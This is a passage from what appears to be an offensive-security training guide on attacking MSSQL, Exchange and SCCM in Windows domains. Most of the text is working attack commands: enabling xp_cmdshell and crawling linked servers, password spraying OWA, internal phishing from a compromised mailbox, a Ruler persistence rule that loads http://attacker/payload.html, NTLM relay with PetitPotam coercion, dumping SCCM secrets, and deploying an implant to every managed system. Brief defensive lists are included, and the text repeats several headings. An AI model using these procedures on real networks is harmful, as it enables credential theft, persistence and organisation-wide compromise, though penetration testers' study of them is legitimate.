| HeidiSQL | Windows | GUI client for MSSQL, MySQL, PostgreSQL |
| SSMS | Windows | Official Microsoft SQL Server Management Studio |
# PowerUpSQL: discover and audit SQL instances
execute-assembly /opt/tools/PowerUpSQL.dll ; Get-SQLInstanceDomain
execute-assembly /opt/tools/PowerUpSQL.dll ; Get-SQLServerInfo -Instance SQL01
execute-assembly /opt/tools/PowerUpSQL.dll ; Invoke-SQLAudit -Instance SQL0114.1.6 MSSQL Defensive Considerations
- Principle of least privilege: avoid granting sysadmin; use granular database roles
- Disable xp_cmdshell: disable and monitor for re-enablement via sp_configure changes
- Remove unnecessary linked servers: each link expands the attack surface
- Use Group Managed Service Accounts (gMSA): auto-rotated credentials for SQL service accounts
- Enable SQL Server Audit: log login attempts, privilege changes, and command execution
- Restrict OLE Automation and CLR: disable unless explicitly required
- Network segmentation: restrict SQL Server access to application servers only
Methodology
- Discover MSSQL instances on the network:
proxychains -q nmap -sT -Pn -p 1433 10.10.10.0/24 - Connect to MSSQL with domain credentials:
proxychains -q impacket-mssqlclient -windows-auth CORP/user:password@10.10.10.20 - Check impersonation privileges and escalate to sysadmin:
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'; EXECUTE AS LOGIN = 'sa'; SELECT IS_SRVROLEMEMBER('sysadmin'); - Enumerate linked servers and check identity on each:
EXEC sp_linkedservers; SELECT * FROM OPENQUERY(LinkedSrv, 'SELECT SYSTEM_USER'); SELECT * FROM OPENQUERY(LinkedSrv, 'SELECT IS_SRVROLEMEMBER(''sysadmin'')'); - Enable xp_cmdshell and execute OS commands:
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'whoami'; - Crawl linked server chains for lateral movement:
SELECT * FROM OPENQUERY(LinkedSrv1, 'SELECT * FROM OPENQUERY(LinkedSrv2, ''SELECT SYSTEM_USER'')'); EXEC ('xp_cmdshell ''whoami''') AT LinkedSrv1; - Use PowerUpSQL for automated discovery and auditing:
execute-assembly /opt/tools/PowerUpSQL.dll ; Get-SQLInstanceDomain execute-assembly /opt/tools/PowerUpSQL.dll ; Get-SQLServerLinkCrawl -Instance SQL01 -Query "exec master..xp_cmdshell 'whoami'"
14.2 Exchange Server Attacks
Microsoft Exchange Server manages email, calendaring, and collaboration within organizations. Exchange integrates deeply with Active Directory, storing mailbox data and configuration in AD objects. Key components:
14.2.1 Introduction to Exchange
Microsoft Exchange Server manages email, calendaring, and collaboration within organizations. Exchange integrates deeply with Active Directory, storing mailbox data and configuration in AD objects. Key components:
- Outlook Web Access (OWA): browser-based email access
- Exchange Web Services (EWS): SOAP-based API for programmatic access
- AutoDiscover: automatic client configuration endpoint
- Exchange Admin Center (EAC): web-based administration console
- Exchange Management Shell (EMS): PowerShell-based administration
14.2.2 Exchange Enumeration
# Discover Exchange servers via DNS
dig MX corp.local
nslookup -type=srv _autodiscover._tcp.corp.local
# Identify Exchange version from OWA headers
curl -sk https://mail.corp.local/owa/ -I | grep X-OWA-Version
# Enumerate users via timing attack on /autodiscover
# or via OWA login form response differences# MailSniper: enumerate users, search mailboxes
# Password spray against OWA
Invoke-PasswordSprayOWA -ExchHostname mail.corp.local -UserList users.txt -Password 'Spring2024!'
# Search mailboxes for sensitive content (requires valid credentials)
Invoke-SelfSearch -Mailbox user@corp.local -ExchHostname mail.corp.local -Terms "password","credentials","vpn"
# Enumerate the Global Address List
Get-GlobalAddressList -ExchHostname mail.corp.local -UserName CORP\user -Password 'P@ssw0rd'14.2.3 Exchange Vulnerabilities
| Vulnerability | CVE | Impact |
|---|---|---|
| ProxyLogon | CVE-2021-26855 + CVE-2021-27065 | SSRF to RCE; unauthenticated remote code execution |
| ProxyShell | CVE-2021-34473 + CVE-2021-34523 + CVE-2021-31207 | Pre-auth RCE via AutoDiscover, elevation, and arbitrary file write |
| ProxyNotShell | CVE-2022-41040 + CVE-2022-41082 | Authenticated SSRF to RCE; requires valid credentials |
| PrivExchange | CVE-2019-0686 | NTLM relay from Exchange to DC; escalate to Domain Admin |
https://learn.microsoft.com/en-us/exchange/new-features/build-numbers-and-release-dates.14.2.4 Exchange Phishing Attacks
Internal phishing from a compromised mailbox is highly effective because the email originates from a trusted sender within the organization.
# Send phishing email via EWS from a compromised mailbox
$cred = New-Object System.Management.Automation.PSCredential("CORP\compromised", (ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force))
# Using MailSniper
Send-EWSEmail -ExchHostname mail.corp.local -Recipient target@corp.local -Subject "Urgent: Review Required" -Body "Please review the attached document." -Attachment "C:\Temp\payload.docx"# Ruler: interact with Exchange via MAPI/RPC
ruler -u user@corp.local -p 'P@ssw0rd' --email user@corp.local display
# Create Outlook homepage rule for persistence
ruler -u user@corp.local -p 'P@ssw0rd' --email user@corp.local homepage add --url http://attacker/payload.html14.2.5 Exchange Defensive Considerations
- Patch promptly: Exchange vulnerabilities are frequently exploited within days of disclosure
- Restrict OWA/ECP exposure: limit access to internal networks or VPN connections
- Disable legacy protocols: MAPI/RPC, POP3, IMAP unless required
- Monitor mailbox rules: detect suspicious forwarding rules and homepage persistence
- Segment Exchange servers: restrict network access to required ports only
- Review Exchange permissions in AD: Exchange groups have powerful default AD rights
Methodology
- Discover Exchange servers via DNS:
dig MX corp.local nslookup -type=srv _autodiscover._tcp.corp.local - Identify Exchange version from OWA headers:
curl -sk https://mail.corp.local/owa/ -I | grep X-OWA-Version - Password spray against OWA with MailSniper:
Invoke-PasswordSprayOWA -ExchHostname mail.corp.local -UserList users.txt -Password 'Spring2024!' - Search mailboxes for sensitive content:
Invoke-SelfSearch -Mailbox user@corp.local -ExchHostname mail.corp.local -Terms "password","credentials","vpn" - Enumerate the Global Address List:
Get-GlobalAddressList -ExchHostname mail.corp.local -UserName CORP\user -Password 'P@ssw0rd' - Check for known Exchange vulnerabilities (ProxyLogon, ProxyShell, ProxyNotShell) based on build number
- Send internal phishing email from a compromised mailbox via EWS:
Send-EWSEmail -ExchHostname mail.corp.local -Recipient target@corp.local -Subject "Urgent: Review Required" -Body "Please review the attached document." -Attachment "C:\Temp\payload.docx" - Create Outlook homepage rule for persistence with Ruler:
ruler -u user@corp.local -p 'P@ssw0rd' --email user@corp.local homepage add --url http://attacker/payload.html
14.3 SCCM Enumeration and Exploitation
System Center Configuration Manager (SCCM), now Microsoft Endpoint Configuration Manager (MECM), manages software deployment, patching, and configuration across enterprise Windows environments. Its architecture creates privileged attack paths:
14.3.1 Introduction to SCCM
System Center Configuration Manager (SCCM), now Microsoft Endpoint Configuration Manager (MECM), manages software deployment, patching, and configuration across enterprise Windows environments. Its architecture creates privileged attack paths:
- Site Server: central management point; runs the SMS Provider
- Management Point (MP): client-facing communication endpoint
- Distribution Point (DP): hosts content packages for client deployment
- Site Database: MSSQL database storing all configuration and inventory data
- SCCM Client: agent installed on managed endpoints
- Network Access Account (NAA): domain account used by clients to access distribution points
14.3.2 SCCM Auditing and Enumeration
# Discover SCCM infrastructure
# Look for management point via DNS
nslookup -type=srv _mssms_mp_.corp.local
# SharpSCCM: enumerate SCCM from a domain-joined client
execute-assembly /opt/tools/SharpSCCM.exe ; local site-info
execute-assembly /opt/tools/SharpSCCM.exe ; get site-info -mp MP01.corp.local
execute-assembly /opt/tools/SharpSCCM.exe ; get collections
execute-assembly /opt/tools/SharpSCCM.exe ; get devices
# Enumerate NAA credentials
execute-assembly /opt/tools/SharpSCCM.exe ; local naa# PowerSCCM
Import-Module PowerSCCM.ps1
Find-SccmSiteCode -ComputerName MP01
Get-SccmSession -ComputerName MP01 -SiteCode ABC
Get-SccmCollection
Get-SccmDevice14.3.3 Abusing SCCM
SCCM provides several attack paths for privilege escalation and lateral movement.
# Retrieve NAA credentials from the local SCCM client policy
# NAA credentials are stored in WMI and protected by DPAPI
execute-assembly /opt/tools/SharpSCCM.exe ; local naa -m wmi
# Deploy an application to a specific collection (requires admin on SCCM)
execute-assembly /opt/tools/SharpSCCM.exe ; exec -p "C:\Windows\Temp\implant.exe" -c DeviceCollectionID -mp MP01.corp.local -sc ABC
# Run a script on a device via CMPivot (requires appropriate permissions)
execute-assembly /opt/tools/SharpSCCM.exe ; exec -p "whoami" --run-as-script -d TARGET01 -mp MP01.corp.local -sc ABCMethodology
- Discover SCCM management point via DNS:
nslookup -type=srv _mssms_mp_.corp.local - Enumerate SCCM site info, collections, and devices with SharpSCCM:
execute-assembly /opt/tools/SharpSCCM.exe ; local site-info execute-assembly /opt/tools/SharpSCCM.exe ; get collections execute-assembly /opt/tools/SharpSCCM.exe ; get devices - Extract NAA credentials from the local SCCM client:
execute-assembly /opt/tools/SharpSCCM.exe ; local naa execute-assembly /opt/tools/SharpSCCM.exe ; local naa -m wmi - Enumerate SCCM with PowerSCCM:
Import-Module PowerSCCM.ps1 Find-SccmSiteCode -ComputerName MP01 Get-SccmSession -ComputerName MP01 -SiteCode ABC Get-SccmDevice - Deploy an application to a target collection:
execute-assembly /opt/tools/SharpSCCM.exe ; exec -p "C:\Windows\Temp\implant.exe" -c DeviceCollectionID -mp MP01.corp.local -sc ABC - Execute a script on a specific device via CMPivot:
execute-assembly /opt/tools/SharpSCCM.exe ; exec -p "whoami" --run-as-script -d TARGET01 -mp MP01.corp.local -sc ABC
14.4 SCCM Site Takeover and Post-Exploitation
If the SCCM site database allows NTLM authentication, coercing the site server to authenticate to an attacker-controlled host enables relay to the SQL database.
14.4.1 SCCM Site Takeover I: NTLM Relay to MSSQL Site Database
If the SCCM site database allows NTLM authentication, coercing the site server to authenticate to an attacker-controlled host enables relay to the SQL database.
# Setup NTLM relay targeting the MSSQL site database
impacket-ntlmrelayx -t mssql://SQL01.corp.local -q "USE CM_ABC; INSERT INTO..." --no-http-server -smb2support
# Coerce the site server to authenticate (PetitPotam, PrinterBug, etc.)
python3 PetitPotam.py attacker-ip SITESERVER.corp.local
# If successful, the relay grants sysadmin on the site database
# From there, grant Full Administrator in SCCM via SQL queries14.4.2 SCCM Site Takeover II: NTLM Relay to SMS Provider and Passive Server
The SMS Provider exposes WMI and AdminService (REST API) for SCCM administration. Relaying authentication to the SMS Provider or a passive site server grants administrative access to SCCM.
# Relay to the SMS Provider AdminService
impacket-ntlmrelayx -t https://SMSPROVIDER.corp.local/AdminService/wmi/SMS_Admin -smb2support
# Coerce authentication from a privileged account
python3 PetitPotam.py attacker-ip DC01.corp.local14.4.3 SCCM Post-Exploitation
# Extract stored credentials from SCCM
# Task sequence passwords, NAA credentials, collection variables
execute-assembly /opt/tools/SharpSCCM.exe ; get secrets
# Extract all NAA credentials from the site database (requires DB access)
# Credentials are encrypted with the SCCM site key
# Deploy a script or application to all systems for mass lateral movement
execute-assembly /opt/tools/SharpSCCM.exe ; exec -p "C:\Windows\Temp\implant.exe" -c "All Systems" -mp MP01.corp.local -sc ABC
# Use SCCM client push installation account (often has local admin everywhere)
# Extract from the site database or intercept during client push14.4.4 SCCM Defensive Considerations
- Require HTTPS for all client communication: prevents credential interception
- Remove the NAA: use Enhanced HTTP or a PKI-based approach instead
- Restrict site server permissions: minimize accounts with Full Administrator
- Enable Kerberos-only authentication for the site database: prevents NTLM relay
- Monitor SCCM admin activity: audit application deployments, script execution, and admin changes
- Harden the site database: restrict access to the MSSQL instance hosting CM_ database
- Segment SCCM infrastructure: site servers, management points, and databases on restricted networks
- Review SCCM with Misconfiguration Manager: open-source SCCM attack and defense resource
Methodology
- Set up NTLM relay targeting the MSSQL site database:
impacket-ntlmrelayx -t mssql://SQL01.corp.local -q "USE CM_ABC; INSERT INTO..." --no-http-server -smb2support - Coerce the site server to authenticate (PetitPotam):
python3 PetitPotam.py attacker-ip SITESERVER.corp.local - Relay to SMS Provider AdminService for SCCM admin access:
impacket-ntlmrelayx -t https://SMSPROVIDER.corp.local/AdminService/wmi/SMS_Admin -smb2support - Extract stored secrets (task sequence passwords, NAA, collection variables):
execute-assembly /opt/tools/SharpSCCM.exe ; get secrets - Deploy implant to all systems for mass lateral movement:
execute-assembly /opt/tools/SharpSCCM.exe ; exec -p "C:\Windows\Temp\implant.exe" -c "All Systems" -mp MP01.corp.local -sc ABC - Recover the SCCM client push installation account from the site database for local admin access across managed systems